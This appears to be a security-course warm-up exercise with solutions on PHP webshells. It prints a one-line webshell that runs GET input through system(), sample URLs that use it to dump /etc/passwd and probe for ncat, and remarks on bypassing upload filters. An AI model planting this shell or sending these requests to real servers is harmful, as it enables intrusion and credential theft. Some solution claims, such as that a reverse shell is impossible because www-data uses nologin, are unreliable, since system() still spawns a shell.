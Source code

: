 # Webshell Warm-Up
In this exercise, you'll review fundamental concepts around webshells.

## Constructing Commands
Suppose the following PHP webshell lives at `https://vulnerable.site/shell.php`.

  ```php
  <?php
    echo system($_GET["command"]);
  ?>
  ```

How would you construct a URL to:
- Dump `/etc/passwd`?
- Determine if `ncat` is installed?
- List all files in the current directorty?
> **Solutions**
>  - `https://vulnerable.site/shell.php?command=cat%20/etc/passwd`
>  - `https://vulnerable.site/shell.php?command=ncat%20--version`
>  - `https://vulnerable.site/shell.php?command=ls`

## Bypassing Filters
Suppose the web application you're assessing has a photo upload feature.
- State one technique for preventing users from uploading webshells.
  > **Solution**: You could use a whitelist of allowed file types (i.e., only allow PNG, JPG/JPEG, etc.). Alternatively, you could use a blacklist of disallowed file types (i.e., don't allow PHP, Python, etc.)
- Is there any way to bypass your suggested fix? Why or why not?
  > **Solution**: Blacklists can be bypassed by simply changing the file extension. Whitelists may be more robust to this bypass, as the web application can be configured to handle files of each allowed type in a specifically, secure way.

## Thinking Critically
- Can you use a webshell to run commands with `sudo`? Why or why not?
  > **Solution**: No, because `sudo` requires users to enter a password.
- Can you use a webshell to add or modify a user, or change group membership? Why or why not?
  > **Solution**: No, because adding/modifying users requires `sudo`.
- Can you use a webshell to open an interactive shell to an attacking machine? Why or why not?
  > **Solution**: Maybe. In the examples we've seen, no, because the server runs as the `www-data` user, which has a default shell of `/bin/false` or /bin/nologin`, both of which prevent the user from acquiring an interactive shell.
